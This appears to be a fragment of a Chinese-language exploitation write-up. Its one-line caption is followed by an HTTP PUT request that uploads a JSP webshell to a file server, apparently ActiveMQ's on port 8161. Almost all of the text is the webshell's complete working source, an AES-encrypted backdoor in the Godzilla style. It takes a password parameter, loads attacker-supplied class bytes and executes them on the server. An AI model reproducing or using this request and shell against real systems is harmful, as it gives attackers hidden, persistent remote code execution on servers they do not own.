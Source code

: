 修改类型为PUT，同时上传webshell

```
PUT /fileserver/ra1n3.jsp/ HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```
